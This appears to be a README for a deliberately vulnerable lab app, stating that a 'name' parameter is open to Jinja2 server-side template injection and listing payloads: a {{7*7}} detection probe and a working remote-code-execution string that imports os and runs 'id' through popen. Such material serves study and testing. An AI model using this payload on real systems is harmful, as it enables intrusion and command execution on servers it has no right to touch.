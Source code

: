# Jinja2 SSTI

name parameter is vulnerable to SSTI.

# Payloads
for detection
```
{{7*7}}
```

for RCE
```
{{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()}}
```

# Credit
Idea from https://gusralph.info/jinja2-ssti-research/
